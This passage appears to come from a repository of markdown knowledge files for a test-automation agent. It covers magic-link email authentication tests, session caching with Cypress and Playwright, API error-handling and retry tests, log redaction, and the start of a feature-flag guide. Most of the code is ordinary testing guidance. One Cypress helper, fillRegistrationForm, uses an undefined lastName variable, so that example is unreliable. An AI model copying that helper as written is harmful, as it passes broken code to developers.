    // Generate expired link (simulate 24 hours ago)
    const expiredToken = Buffer.from(
      JSON.stringify({
        email: 'test@example.com',
        exp: Date.now() - 24 * 60 * 60 * 1000, // 24 hours ago
      }),
    ).toString('base64');

    const expiredLink = `http://localhost:3000/auth/verify?token=${expiredToken}`;

    // Visit expired link
    await page.goto(expiredLink);

    // Assert: Error displayed
    await expect(page.getByTestId('error-message')).toBeVisible();
    await expect(page.getByTestId('error-message')).toContainText(/link.*expired|expired.*link/i);

    // Assert: Link to request new one
    await expect(page.getByTestId('request-new-link')).toBeVisible();

    // Assert: User NOT authenticated
    await expect(page.getByTestId('user-menu')).not.toBeVisible();
  });

  test('should reject invalid magic link token', async ({ page }) => {
    const invalidLink = 'http://localhost:3000/auth/verify?token=invalid-garbage';

    await page.goto(invalidLink);

    // Assert: Error displayed
    await expect(page.getByTestId('error-message')).toBeVisible();
    await expect(page.getByTestId('error-message')).toContainText(/invalid.*link|link.*invalid/i);

    // Assert: User not authenticated
    await expect(page.getByTestId('user-menu')).not.toBeVisible();
  });

  test('should reject already-used magic link', async ({ page, context }) => {
    const randomId = Math.floor(Math.random() * 1000000);
    const testEmail = `user-${randomId}@${MAILOSAUR_SERVER_ID}.mailosaur.net`;

    // Request magic link
    await page.goto('/login');
    await page.getByTestId('email-input').fill(testEmail);
    await page.getByTestId('send-magic-link').click();

    const magicLink = await getMagicLinkFromEmail(testEmail);

    // Visit link FIRST time (success)
    await page.goto(magicLink);
    await expect(page.getByTestId('user-menu')).toBeVisible();

    // Sign out
    await page.getByTestId('user-menu').click();
    await page.getByTestId('sign-out').click();
    await expect(page.getByTestId('user-menu')).not.toBeVisible();

    // Try to reuse SAME link (should fail)
    await page.goto(magicLink);

    // Assert: Link already used error
    await expect(page.getByTestId('error-message')).toBeVisible();
    await expect(page.getByTestId('error-message')).toContainText(/already.*used|link.*used/i);

    // Assert: User not authenticated
    await expect(page.getByTestId('user-menu')).not.toBeVisible();
  });

  test('should handle rapid successive link requests', async ({ page }) => {
    const randomId = Math.floor(Math.random() * 1000000);
    const testEmail = `user-${randomId}@${MAILOSAUR_SERVER_ID}.mailosaur.net`;

    // Request magic link 3 times rapidly
    for (let i = 0; i < 3; i++) {
      await page.goto('/login');
      await page.getByTestId('email-input').fill(testEmail);
      await page.getByTestId('send-magic-link').click();
      await expect(page.getByTestId('check-email-message')).toBeVisible();
    }

    // Only the LATEST link should work
    const MailosaurClient = require('mailosaur');
    const mailosaur = new MailosaurClient(process.env.MAILOSAUR_API_KEY);

    const messages = await mailosaur.messages.list(MAILOSAUR_SERVER_ID, {
      sentTo: testEmail,
    });

    // Should receive 3 emails
    expect(messages.items.length).toBeGreaterThanOrEqual(3);

    // Get the LATEST magic link
    const latestMessage = messages.items[0]; // Most recent first
    const latestLink = latestMessage.html.links[0].href;

    // Latest link works
    await page.goto(latestLink);
    await expect(page.getByTestId('user-menu')).toBeVisible();

    // Older links should NOT work (if backend invalidates previous)
    await page.getByTestId('sign-out').click();
    const olderLink = messages.items[1].html.links[0].href;

    await page.goto(olderLink);
    await expect(page.getByTestId('error-message')).toBeVisible();
  });

  test('should rate-limit excessive magic link requests', async ({ page }) => {
    const randomId = Math.floor(Math.random() * 1000000);
    const testEmail = `user-${randomId}@${MAILOSAUR_SERVER_ID}.mailosaur.net`;

    // Request magic link 10 times rapidly (should hit rate limit)
    for (let i = 0; i < 10; i++) {
      await page.goto('/login');
      await page.getByTestId('email-input').fill(testEmail);
      await page.getByTestId('send-magic-link').click();

      // After N requests, should show rate limit error
      const errorVisible = await page
        .getByTestId('rate-limit-error')
        .isVisible({ timeout: 1000 })
        .catch(() => false);

      if (errorVisible) {
        console.log(`Rate limit hit after ${i + 1} requests`);
        await expect(page.getByTestId('rate-limit-error')).toContainText(/too many.*requests|rate.*limit/i);
        return;
      }
    }

    // If no rate limit after 10 requests, log warning
    console.warn('⚠️  No rate limit detected after 10 requests');
  });
});
```

**Key Points**:

- **Expired links**: Test 24+ hour old tokens
- **Invalid tokens**: Malformed or garbage tokens rejected
- **Reuse prevention**: Same link can't be used twice
- **Rapid requests**: Multiple requests handled gracefully
- **Rate limiting**: Excessive requests blocked

---

### Example 4: Caching Strategy with cypress-data-session / Playwright Projects

**Context**: Minimize email consumption by sharing authentication state across tests and specs.

**Implementation**:

```javascript
// cypress/support/commands/register-and-sign-in.js
import { dataSession } from 'cypress-data-session';

/**
 * Email Authentication Caching Strategy
 * - One email per test run (not per spec, not per test)
 * - First spec: Full registration flow (form → email → code → sign in)
 * - Subsequent specs: Only sign in (reuse user)
 * - Subsequent tests in same spec: Session already active (no sign in)
 */

// Helper: Fill registration form
function fillRegistrationForm({ fullName, userName, email, password }) {
  cy.intercept('POST', 'https://cognito-idp*').as('cognito');
  cy.contains('Register').click();
  cy.get('#reg-dialog-form').should('be.visible');
  cy.get('#first-name').type(fullName, { delay: 0 });
  cy.get('#last-name').type(lastName, { delay: 0 });
  cy.get('#email').type(email, { delay: 0 });
  cy.get('#username').type(userName, { delay: 0 });
  cy.get('#password').type(password, { delay: 0 });
  cy.contains('button', 'Create an account').click();
  cy.wait('@cognito').its('response.statusCode').should('equal', 200);
}

// Helper: Confirm registration with email code
function confirmRegistration(email) {
  return cy
    .mailosaurGetMessage(Cypress.env('MAILOSAUR_SERVERID'), { sentTo: email })
    .its('html.codes.0.value') // Mailosaur auto-extracts codes!
    .then((code) => {
      cy.intercept('POST', 'https://cognito-idp*').as('cognito');
      cy.get('#verification-code').type(code, { delay: 0 });
      cy.contains('button', 'Confirm registration').click();
      cy.wait('@cognito');
      cy.contains('You are now registered!').should('be.visible');
      cy.contains('button', /ok/i).click();
      return cy.wrap(code); // Return code for reference
    });
}

// Helper: Full registration (form + email)
function register({ fullName, userName, email, password }) {
  fillRegistrationForm({ fullName, userName, email, password });
  return confirmRegistration(email);
}

// Helper: Sign in
function signIn({ userName, password }) {
  cy.intercept('POST', 'https://cognito-idp*').as('cognito');
  cy.contains('Sign in').click();
  cy.get('#sign-in-username').type(userName, { delay: 0 });
  cy.get('#sign-in-password').type(password, { delay: 0 });
  cy.contains('button', 'Sign in').click();
  cy.wait('@cognito');
  cy.contains('Sign out').should('be.visible');
}

/**
 * Register and sign in with email caching
 * ONE EMAIL PER MACHINE (cypress run or cypress open)
 */
Cypress.Commands.add('registerAndSignIn', ({ fullName, userName, email, password }) => {
  return dataSession({
    name: email, // Unique session per email

    // First time: Full registration (form → email → code)
    init: () => register({ fullName, userName, email, password }),

    // Subsequent specs: Just check email exists (code already used)
    setup: () => confirmRegistration(email),

    // Always runs after init/setup: Sign in
    recreate: () => signIn({ userName, password }),

    // Share across ALL specs (one email for entire test run)
    shareAcrossSpecs: true,
  });
});
```

**Usage across multiple specs**:

```javascript
// cypress/e2e/place-order.cy.ts
describe('Place Order', () => {
  beforeEach(() => {
    cy.visit('/');
    cy.registerAndSignIn({
      fullName: Cypress.env('fullName'), // From cypress.config
      userName: Cypress.env('userName'),
      email: Cypress.env('email'), // SAME email across all specs
      password: Cypress.env('password'),
    });
  });

  it('should place order', () => {
    /* ... */
  });
  it('should view order history', () => {
    /* ... */
  });
});

// cypress/e2e/profile.cy.ts
describe('User Profile', () => {
  beforeEach(() => {
    cy.visit('/');
    cy.registerAndSignIn({
      fullName: Cypress.env('fullName'),
      userName: Cypress.env('userName'),
      email: Cypress.env('email'), // SAME email - no new email sent!
      password: Cypress.env('password'),
    });
  });

  it('should update profile', () => {
    /* ... */
  });
});
```

**Playwright equivalent with storageState**:

```typescript
// playwright.config.ts
import { defineConfig } from '@playwright/test';

export default defineConfig({
  projects: [
    {
      name: 'setup',
      testMatch: /global-setup\.ts/,
    },
    {
      name: 'authenticated',
      testMatch: /.*\.spec\.ts/,
      dependencies: ['setup'],
      use: {
        storageState: '.auth/user-session.json', // Reuse auth state
      },
    },
  ],
});
```

```typescript
// tests/global-setup.ts (runs once)
import { test as setup } from '@playwright/test';
import { getMagicLinkFromEmail } from './support/mailosaur-helpers';

const authFile = '.auth/user-session.json';

setup('authenticate via magic link', async ({ page }) => {
  const testEmail = process.env.TEST_USER_EMAIL!;

  // Request magic link
  await page.goto('/login');
  await page.getByTestId('email-input').fill(testEmail);
  await page.getByTestId('send-magic-link').click();

  // Get and visit magic link
  const magicLink = await getMagicLinkFromEmail(testEmail);
  await page.goto(magicLink);

  // Verify authenticated
  await expect(page.getByTestId('user-menu')).toBeVisible();

  // Save authenticated state (ONE TIME for all tests)
  await page.context().storageState({ path: authFile });

  console.log('✅ Authentication state saved to', authFile);
});
```

**Key Points**:

- **One email per run**: Global setup authenticates once
- **State reuse**: All tests use cached storageState
- **cypress-data-session**: Intelligently manages cache lifecycle
- **shareAcrossSpecs**: Session shared across all spec files
- **Massive savings**: 500 tests = 1 email (not 500!)

---

## Email Authentication Testing Checklist

Before implementing email auth tests, verify:

- [ ] **Email service**: Mailosaur/Ethereal/MailHog configured with API keys
- [ ] **Link extraction**: Use built-in parsing (html.links[0].href) over regex
- [ ] **State preservation**: localStorage/session/cookies saved and restored
- [ ] **Session caching**: cypress-data-session or storageState prevents redundant emails
- [ ] **Negative flows**: Expired, invalid, reused, rapid requests tested
- [ ] **Quota awareness**: One email per run (not per test)
- [ ] **PII scrubbing**: Email IDs logged for debug, but scrubbed from artifacts
- [ ] **Timeout handling**: 30 second email retrieval timeout configured

## Integration Points

- Used in workflows: `*framework` (email auth setup), `*automate` (email auth test generation)
- Related fragments: `fixture-architecture.md`, `test-quality.md`
- Email services: Mailosaur (recommended), Ethereal (free), MailHog (self-hosted)
- Plugins: cypress-mailosaur, cypress-data-session

_Source: Email authentication blog, Murat testing toolkit, Mailosaur documentation_
```

## File: `src/agents/bmad-tea/resources/knowledge/error-handling.md`
```markdown
# Error Handling and Resilience Checks

## Principle

Treat expected failures explicitly: intercept network errors, assert UI fallbacks (error messages visible, retries triggered), and use scoped exception handling to ignore known errors while catching regressions. Test retry/backoff logic by forcing sequential failures (500 → timeout → success) and validate telemetry logging. Log captured errors with context (request payload, user/session) but redact secrets to keep artifacts safe for sharing.

## Rationale

Tests fail for two reasons: genuine bugs or poor error handling in the test itself. Without explicit error handling patterns, tests become noisy (uncaught exceptions cause false failures) or silent (swallowing all errors hides real bugs). Scoped exception handling (Cypress.on('uncaught:exception'), page.on('pageerror')) allows tests to ignore documented, expected errors while surfacing unexpected ones. Resilience testing (retry logic, graceful degradation) ensures applications handle failures gracefully in production.

## Pattern Examples

### Example 1: Scoped Exception Handling (Expected Errors Only)

**Context**: Handle known errors (Network failures, expected 500s) without masking unexpected bugs.

**Implementation**:

```typescript
// tests/e2e/error-handling.spec.ts
import { test, expect } from '@playwright/test';

/**
 * Scoped Error Handling Pattern
 * - Only ignore specific, documented errors
 * - Rethrow everything else to catch regressions
 * - Validate error UI and user experience
 */

test.describe('API Error Handling', () => {
  test('should display error message when API returns 500', async ({ page }) => {
    // Scope error handling to THIS test only
    const consoleErrors: string[] = [];
    page.on('pageerror', (error) => {
      // Only swallow documented NetworkError
      if (error.message.includes('NetworkError: Failed to fetch')) {
        consoleErrors.push(error.message);
        return; // Swallow this specific error
      }
      // Rethrow all other errors (catch regressions!)
      throw error;
    });

    // Arrange: Mock 500 error response
    await page.route('**/api/users', (route) =>
      route.fulfill({
        status: 500,
        contentType: 'application/json',
        body: JSON.stringify({
          error: 'Internal server error',
          code: 'INTERNAL_ERROR',
        }),
      }),
    );

    // Act: Navigate to page that fetches users
    await page.goto('/dashboard');

    // Assert: Error UI displayed
    await expect(page.getByTestId('error-message')).toBeVisible();
    await expect(page.getByTestId('error-message')).toContainText(/error.*loading|failed.*load/i);

    // Assert: Retry button visible
    await expect(page.getByTestId('retry-button')).toBeVisible();

    // Assert: NetworkError was thrown and caught
    expect(consoleErrors).toContainEqual(expect.stringContaining('NetworkError'));
  });

  test('should NOT swallow unexpected errors', async ({ page }) => {
    let unexpectedError: Error | null = null;

    page.on('pageerror', (error) => {
      // Capture but don't swallow - test should fail
      unexpectedError = error;
      throw error;
    });

    // Arrange: App has JavaScript error (bug)
    await page.addInitScript(() => {
      // Simulate bug in app code
      (window as any).buggyFunction = () => {
        throw new Error('UNEXPECTED BUG: undefined is not a function');
      };
    });

    await page.goto('/dashboard');

    // Trigger buggy function
    await page.evaluate(() => (window as any).buggyFunction());

    // Assert: Test fails because unexpected error was NOT swallowed
    expect(unexpectedError).not.toBeNull();
    expect(unexpectedError?.message).toContain('UNEXPECTED BUG');
  });
});
```

**Cypress equivalent**:

```javascript
// cypress/e2e/error-handling.cy.ts
describe('API Error Handling', () => {
  it('should display error message when API returns 500', () => {
    // Scoped to this test only
    cy.on('uncaught:exception', (err) => {
      // Only swallow documented NetworkError
      if (err.message.includes('NetworkError')) {
        return false; // Prevent test failure
      }
      // All other errors fail the test
      return true;
    });

    // Arrange: Mock 500 error
    cy.intercept('GET', '**/api/users', {
      statusCode: 500,
      body: {
        error: 'Internal server error',
        code: 'INTERNAL_ERROR',
      },
    }).as('getUsers');

    // Act
    cy.visit('/dashboard');
    cy.wait('@getUsers');

    // Assert: Error UI
    cy.get('[data-cy="error-message"]').should('be.visible');
    cy.get('[data-cy="error-message"]').should('contain', 'error loading');
    cy.get('[data-cy="retry-button"]').should('be.visible');
  });

  it('should NOT swallow unexpected errors', () => {
    // No exception handler - test should fail on unexpected errors

    cy.visit('/dashboard');

    // Trigger unexpected error
    cy.window().then((win) => {
      // This should fail the test
      win.eval('throw new Error("UNEXPECTED BUG")');
    });

    // Test fails (as expected) - validates error detection works
  });
});
```

**Key Points**:

- **Scoped handling**: page.on() / cy.on() scoped to specific tests
- **Explicit allow-list**: Only ignore documented errors
- **Rethrow unexpected**: Catch regressions by failing on unknown errors
- **Error UI validation**: Assert user sees error message
- **Logging**: Capture errors for debugging, don't swallow silently

---

### Example 2: Retry Validation Pattern (Network Resilience)

**Context**: Test that retry/backoff logic works correctly for transient failures.

**Implementation**:

```typescript
// tests/e2e/retry-resilience.spec.ts
import { test, expect } from '@playwright/test';

/**
 * Retry Validation Pattern
 * - Force sequential failures (500 → 500 → 200)
 * - Validate retry attempts and backoff timing
 * - Assert telemetry captures retry events
 */

test.describe('Network Retry Logic', () => {
  test('should retry on 500 error and succeed', async ({ page }) => {
    let attemptCount = 0;
    const attemptTimestamps: number[] = [];

    // Mock API: Fail twice, succeed on third attempt
    await page.route('**/api/products', (route) => {
      attemptCount++;
      attemptTimestamps.push(Date.now());

      if (attemptCount <= 2) {
        // First 2 attempts: 500 error
        route.fulfill({
          status: 500,
          body: JSON.stringify({ error: 'Server error' }),
        });
      } else {
        // 3rd attempt: Success
        route.fulfill({
          status: 200,
          contentType: 'application/json',
          body: JSON.stringify({ products: [{ id: 1, name: 'Product 1' }] }),
        });
      }
    });

    // Act: Navigate (should retry automatically)
    await page.goto('/products');

    // Assert: Data eventually loads after retries
    await expect(page.getByTestId('product-list')).toBeVisible();
    await expect(page.getByTestId('product-item')).toHaveCount(1);

    // Assert: Exactly 3 attempts made
    expect(attemptCount).toBe(3);

    // Assert: Exponential backoff timing (1s → 2s between attempts)
    if (attemptTimestamps.length === 3) {
      const delay1 = attemptTimestamps[1] - attemptTimestamps[0];
      const delay2 = attemptTimestamps[2] - attemptTimestamps[1];

      expect(delay1).toBeGreaterThanOrEqual(900); // ~1 second
      expect(delay1).toBeLessThan(1200);
      expect(delay2).toBeGreaterThanOrEqual(1900); // ~2 seconds
      expect(delay2).toBeLessThan(2200);
    }

    // Assert: Telemetry logged retry events
    const telemetryEvents = await page.evaluate(() => (window as any).__TELEMETRY_EVENTS__ || []);
    expect(telemetryEvents).toContainEqual(
      expect.objectContaining({
        event: 'api_retry',
        attempt: 1,
        endpoint: '/api/products',
      }),
    );
    expect(telemetryEvents).toContainEqual(
      expect.objectContaining({
        event: 'api_retry',
        attempt: 2,
      }),
    );
  });

  test('should give up after max retries and show error', async ({ page }) => {
    let attemptCount = 0;

    // Mock API: Always fail (test retry limit)
    await page.route('**/api/products', (route) => {
      attemptCount++;
      route.fulfill({
        status: 500,
        body: JSON.stringify({ error: 'Persistent server error' }),
      });
    });

    // Act
    await page.goto('/products');

    // Assert: Max retries reached (3 attempts typical)
    expect(attemptCount).toBe(3);

    // Assert: Error UI displayed after exhausting retries
    await expect(page.getByTestId('error-message')).toBeVisible();
    await expect(page.getByTestId('error-message')).toContainText(/unable.*load|failed.*after.*retries/i);

    // Assert: Data not displayed
    await expect(page.getByTestId('product-list')).not.toBeVisible();
  });

  test('should NOT retry on 404 (non-retryable error)', async ({ page }) => {
    let attemptCount = 0;

    // Mock API: 404 error (should NOT retry)
    await page.route('**/api/products/999', (route) => {
      attemptCount++;
      route.fulfill({
        status: 404,
        body: JSON.stringify({ error: 'Product not found' }),
      });
    });

    await page.goto('/products/999');

    // Assert: Only 1 attempt (no retries on 404)
    expect(attemptCount).toBe(1);

    // Assert: 404 error displayed immediately
    await expect(page.getByTestId('not-found-message')).toBeVisible();
  });
});
```

**Cypress with retry interception**:

```javascript
// cypress/e2e/retry-resilience.cy.ts
describe('Network Retry Logic', () => {
  it('should retry on 500 and succeed on 3rd attempt', () => {
    let attemptCount = 0;

    cy.intercept('GET', '**/api/products', (req) => {
      attemptCount++;

      if (attemptCount <= 2) {
        req.reply({ statusCode: 500, body: { error: 'Server error' } });
      } else {
        req.reply({ statusCode: 200, body: { products: [{ id: 1, name: 'Product 1' }] } });
      }
    }).as('getProducts');

    cy.visit('/products');

    // Wait for final successful request
    cy.wait('@getProducts').its('response.statusCode').should('eq', 200);

    // Assert: Data loaded
    cy.get('[data-cy="product-list"]').should('be.visible');
    cy.get('[data-cy="product-item"]').should('have.length', 1);

    // Validate retry count
    cy.wrap(attemptCount).should('eq', 3);
  });
});
```

**Key Points**:

- **Sequential failures**: Test retry logic with 500 → 500 → 200
- **Backoff timing**: Validate exponential backoff delays
- **Retry limits**: Max attempts enforced (typically 3)
- **Non-retryable errors**: 404s don't trigger retries
- **Telemetry**: Log retry attempts for monitoring

---

### Example 3: Telemetry Logging with Context (Sentry Integration)

**Context**: Capture errors with full context for production debugging without exposing secrets.

**Implementation**:

```typescript
// tests/e2e/telemetry-logging.spec.ts
import { test, expect } from '@playwright/test';

/**
 * Telemetry Logging Pattern
 * - Log errors with request context
 * - Redact sensitive data (tokens, passwords, PII)
 * - Integrate with monitoring (Sentry, Datadog)
 * - Validate error logging without exposing secrets
 */

type ErrorLog = {
  level: 'error' | 'warn' | 'info';
  message: string;
  context?: {
    endpoint?: string;
    method?: string;
    statusCode?: number;
    userId?: string;
    sessionId?: string;
  };
  timestamp: string;
};

test.describe('Error Telemetry', () => {
  test('should log API errors with context', async ({ page }) => {
    const errorLogs: ErrorLog[] = [];

    // Capture console errors
    page.on('console', (msg) => {
      if (msg.type() === 'error') {
        try {
          const log = JSON.parse(msg.text());
          errorLogs.push(log);
        } catch {
          // Not a structured log, ignore
        }
      }
    });

    // Mock failing API
    await page.route('**/api/orders', (route) =>
      route.fulfill({
        status: 500,
        body: JSON.stringify({ error: 'Payment processor unavailable' }),
      }),
    );

    // Act: Trigger error
    await page.goto('/checkout');
    await page.getByTestId('place-order').click();

    // Wait for error UI
    await expect(page.getByTestId('error-message')).toBeVisible();

    // Assert: Error logged with context
    expect(errorLogs).toContainEqual(
      expect.objectContaining({
        level: 'error',
        message: expect.stringContaining('API request failed'),
        context: expect.objectContaining({
          endpoint: '/api/orders',
          method: 'POST',
          statusCode: 500,
          userId: expect.any(String),
        }),
      }),
    );

    // Assert: Sensitive data NOT logged
    const logString = JSON.stringify(errorLogs);
    expect(logString).not.toContain('password');
    expect(logString).not.toContain('token');
    expect(logString).not.toContain('creditCard');
  });

  test('should send errors to Sentry with breadcrumbs', async ({ page }) => {
    const sentryEvents: any[] = [];

    // Mock Sentry SDK
    await page.addInitScript(() => {
      (window as any).Sentry = {
        captureException: (error: Error, context?: any) => {
          (window as any).__SENTRY_EVENTS__ = (window as any).__SENTRY_EVENTS__ || [];
          (window as any).__SENTRY_EVENTS__.push({
            error: error.message,
            context,
            timestamp: Date.now(),
          });
        },
        addBreadcrumb: (breadcrumb: any) => {
          (window as any).__SENTRY_BREADCRUMBS__ = (window as any).__SENTRY_BREADCRUMBS__ || [];
          (window as any).__SENTRY_BREADCRUMBS__.push(breadcrumb);
        },
      };
    });

    // Mock failing API
    await page.route('**/api/users', (route) => route.fulfill({ status: 403, body: { error: 'Forbidden' } }));

    // Act
    await page.goto('/users');

    // Assert: Sentry captured error
    const events = await page.evaluate(() => (window as any).__SENTRY_EVENTS__);
    expect(events).toHaveLength(1);
    expect(events[0]).toMatchObject({
      error: expect.stringContaining('403'),
      context: expect.objectContaining({
        endpoint: '/api/users',
        statusCode: 403,
      }),
    });

    // Assert: Breadcrumbs include user actions
    const breadcrumbs = await page.evaluate(() => (window as any).__SENTRY_BREADCRUMBS__);
    expect(breadcrumbs).toContainEqual(
      expect.objectContaining({
        category: 'navigation',
        message: '/users',
      }),
    );
  });
});
```

**Cypress with Sentry**:

```javascript
// cypress/e2e/telemetry-logging.cy.ts
describe('Error Telemetry', () => {
  it('should log API errors with redacted sensitive data', () => {
    const errorLogs = [];

    // Capture console errors
    cy.on('window:before:load', (win) => {
      cy.stub(win.console, 'error').callsFake((msg) => {
        errorLogs.push(msg);
      });
    });

    // Mock failing API
    cy.intercept('POST', '**/api/orders', {
      statusCode: 500,
      body: { error: 'Payment failed' },
    });

    // Act
    cy.visit('/checkout');
    cy.get('[data-cy="place-order"]').click();

    // Assert: Error logged
    cy.wrap(errorLogs).should('have.length.greaterThan', 0);

    // Assert: Context included
    cy.wrap(errorLogs[0]).should('include', '/api/orders');

    // Assert: Secrets redacted
    cy.wrap(JSON.stringify(errorLogs)).should('not.contain', 'password');
    cy.wrap(JSON.stringify(errorLogs)).should('not.contain', 'creditCard');
  });
});
```

**Error logger utility with redaction**:

```typescript
// src/utils/error-logger.ts
type ErrorContext = {
  endpoint?: string;
  method?: string;
  statusCode?: number;
  userId?: string;
  sessionId?: string;
  requestPayload?: any;
};

const SENSITIVE_KEYS = ['password', 'token', 'creditCard', 'ssn', 'apiKey'];

/**
 * Redact sensitive data from objects
 */
function redactSensitiveData(obj: any): any {
  if (typeof obj !== 'object' || obj === null) return obj;

  const redacted = { ...obj };

  for (const key of Object.keys(redacted)) {
    if (SENSITIVE_KEYS.some((sensitive) => key.toLowerCase().includes(sensitive))) {
      redacted[key] = '[REDACTED]';
    } else if (typeof redacted[key] === 'object') {
      redacted[key] = redactSensitiveData(redacted[key]);
    }
  }

  return redacted;
}

/**
 * Log error with context (Sentry integration)
 */
export function logError(error: Error, context?: ErrorContext) {
  const safeContext = context ? redactSensitiveData(context) : {};

  const errorLog = {
    level: 'error' as const,
    message: error.message,
    stack: error.stack,
    context: safeContext,
    timestamp: new Date().toISOString(),
  };

  // Console (development)
  console.error(JSON.stringify(errorLog));

  // Sentry (production)
  if (typeof window !== 'undefined' && (window as any).Sentry) {
    (window as any).Sentry.captureException(error, {
      contexts: { custom: safeContext },
    });
  }
}
```

**Key Points**:

- **Context-rich logging**: Endpoint, method, status, user ID
- **Secret redaction**: Passwords, tokens, PII removed before logging
- **Sentry integration**: Production monitoring with breadcrumbs
- **Structured logs**: JSON format for easy parsing
- **Test validation**: Assert logs contain context but not secrets

---

### Example 4: Graceful Degradation Tests (Fallback Behavior)

**Context**: Validate application continues functioning when services are unavailable.

**Implementation**:

```typescript
// tests/e2e/graceful-degradation.spec.ts
import { test, expect } from '@playwright/test';

/**
 * Graceful Degradation Pattern
 * - Simulate service unavailability
 * - Validate fallback behavior
 * - Ensure user experience degrades gracefully
 * - Verify telemetry captures degradation events
 */

test.describe('Service Unavailability', () => {
  test('should display cached data when API is down', async ({ page }) => {
    // Arrange: Seed localStorage with cached data
    await page.addInitScript(() => {
      localStorage.setItem(
        'products_cache',
        JSON.stringify({
          data: [
            { id: 1, name: 'Cached Product 1' },
            { id: 2, name: 'Cached Product 2' },
          ],
          timestamp: Date.now(),
        }),
      );
    });

    // Mock API unavailable
    await page.route(
      '**/api/products',
      (route) => route.abort('connectionrefused'), // Simulate server down
    );

    // Act
    await page.goto('/products');

    // Assert: Cached data displayed
    await expect(page.getByTestId('product-list')).toBeVisible();
    await expect(page.getByText('Cached Product 1')).toBeVisible();

    // Assert: Stale data warning shown
    await expect(page.getByTestId('cache-warning')).toBeVisible();
    await expect(page.getByTestId('cache-warning')).toContainText(/showing.*cached|offline.*mode/i);

    // Assert: Retry button available
    await expect(page.getByTestId('refresh-button')).toBeVisible();
  });

  test('should show fallback UI when analytics service fails', async ({ page }) => {
    // Mock analytics service down (non-critical)
    await page.route('**/analytics/track', (route) => route.fulfill({ status: 503, body: 'Service unavailable' }));

    // Act: Navigate normally
    await page.goto('/dashboard');

    // Assert: Page loads successfully (analytics failure doesn't block)
    await expect(page.getByTestId('dashboard-content')).toBeVisible();

    // Assert: Analytics error logged but not shown to user
    const consoleErrors = [];
    page.on('console', (msg) => {
      if (msg.type() === 'error') consoleErrors.push(msg.text());
    });

    // Trigger analytics event
    await page.getByTestId('track-action-button').click();

    // Analytics error logged
    expect(consoleErrors).toContainEqual(expect.stringContaining('Analytics service unavailable'));

    // But user doesn't see error
    await expect(page.getByTestId('error-message')).not.toBeVisible();
  });

  test('should fallback to local validation when API is slow', async ({ page }) => {
    // Mock slow API (> 5 seconds)
    await page.route('**/api/validate-email', async (route) => {
      await new Promise((resolve) => setTimeout(resolve, 6000)); // 6 second delay
      route.fulfill({
        status: 200,
        body: JSON.stringify({ valid: true }),
      });
    });

    // Act: Fill form
    await page.goto('/signup');
    await page.getByTestId('email-input').fill('test@example.com');
    await page.getByTestId('email-input').blur();

    // Assert: Client-side validation triggers immediately (doesn't wait for API)
    await expect(page.getByTestId('email-valid-icon')).toBeVisible({ timeout: 1000 });

    // Assert: Eventually API validates too (but doesn't block UX)
    await expect(page.getByTestId('email-validated-badge')).toBeVisible({ timeout: 7000 });
  });

  test('should maintain functionality with third-party script failure', async ({ page }) => {
    // Block third-party scripts (Google Analytics, Intercom, etc.)
    await page.route('**/*.google-analytics.com/**', (route) => route.abort());
    await page.route('**/*.intercom.io/**', (route) => route.abort());

    // Act
    await page.goto('/');

    // Assert: App works without third-party scripts
    await expect(page.getByTestId('main-content')).toBeVisible();
    await expect(page.getByTestId('nav-menu')).toBeVisible();

    // Assert: Core functionality intact
    await page.getByTestId('nav-products').click();
    await expect(page).toHaveURL(/.*\/products/);
  });
});
```

**Key Points**:

- **Cached fallbacks**: Display stale data when API unavailable
- **Non-critical degradation**: Analytics failures don't block app
- **Client-side fallbacks**: Local validation when API slow
- **Third-party resilience**: App works without external scripts
- **User transparency**: Stale data warnings displayed

---

## Error Handling Testing Checklist

Before shipping error handling code, verify:

- [ ] **Scoped exception handling**: Only ignore documented errors (NetworkError, specific codes)
- [ ] **Rethrow unexpected**: Unknown errors fail tests (catch regressions)
- [ ] **Error UI tested**: User sees error messages for all error states
- [ ] **Retry logic validated**: Sequential failures test backoff and max attempts
- [ ] **Telemetry verified**: Errors logged with context (endpoint, status, user)
- [ ] **Secret redaction**: Logs don't contain passwords, tokens, PII
- [ ] **Graceful degradation**: Critical services down, app shows fallback UI
- [ ] **Non-critical failures**: Analytics/tracking failures don't block app

## Integration Points

- Used in workflows: `*automate` (error handling test generation), `*test-review` (error pattern detection)
- Related fragments: `network-first.md`, `test-quality.md`, `contract-testing.md`
- Monitoring tools: Sentry, Datadog, LogRocket

_Source: Murat error-handling patterns, Pact resilience guidance, enterprise production error handling_
```

## File: `src/agents/bmad-tea/resources/knowledge/feature-flags.md`
```markdown
# Feature Flag Governance

## Principle

Feature flags enable controlled rollouts and A/B testing, but require disciplined testing governance. Centralize flag definitions in a frozen enum, test both enabled and disabled states, clean up targeting after each spec, and maintain a comprehensive flag lifecycle checklist. For LaunchDarkly-style systems, script API helpers to seed variations programmatically rather than manual UI mutations.

## Rationale

Poorly managed feature flags become technical debt: untested variations ship broken code, forgotten flags clutter the codebase, and shared environments become unstable from leftover targeting rules. Structured governance ensures flags are testable, traceable, temporary, and safe. Testing both states prevents surprises when flags flip in production.

## Pattern Examples

### Example 1: Feature Flag Enum Pattern with Type Safety

**Context**: Centralized flag management with TypeScript type safety and runtime validation.

**Implementation**:

```typescript
// src/utils/feature-flags.ts
/**
 * Centralized feature flag definitions
 * - Object.freeze prevents runtime modifications
 * - TypeScript ensures compile-time type safety
 * - Single source of truth for all flag keys
 */
export const FLAGS = Object.freeze({
  // User-facing features
  NEW_CHECKOUT_FLOW: 'new-checkout-flow',
  DARK_MODE: 'dark-mode',
  ENHANCED_SEARCH: 'enhanced-search',

  // Experiments
  PRICING_EXPERIMENT_A: 'pricing-experiment-a',
  HOMEPAGE_VARIANT_B: 'homepage-variant-b',

  // Infrastructure
  USE_NEW_API_ENDPOINT: 'use-new-api-endpoint',
  ENABLE_ANALYTICS_V2: 'enable-analytics-v2',

  // Killswitches (emergency disables)
  DISABLE_PAYMENT_PROCESSING: 'disable-payment-processing',
  DISABLE_EMAIL_NOTIFICATIONS: 'disable-email-notifications',
} as const);

/**
 * Type-safe flag keys
 * Prevents typos and ensures autocomplete in IDEs
 */
export type FlagKey = (typeof FLAGS)[keyof typeof FLAGS];

/**
 * Flag metadata for governance
 */
type FlagMetadata = {
  key: FlagKey;
  name: string;
  owner: string;
  createdDate: string;
  expiryDate?: string;
  defaultState: boolean;
  requiresCleanup: boolean;
  dependencies?: FlagKey[];
  telemetryEvents?: string[];
};

/**
 * Flag registry with governance metadata
 * Used for flag lifecycle tracking and cleanup alerts
 */
export const FLAG_REGISTRY: Record<FlagKey, FlagMetadata> = {
  [FLAGS.NEW_CHECKOUT_FLOW]: {
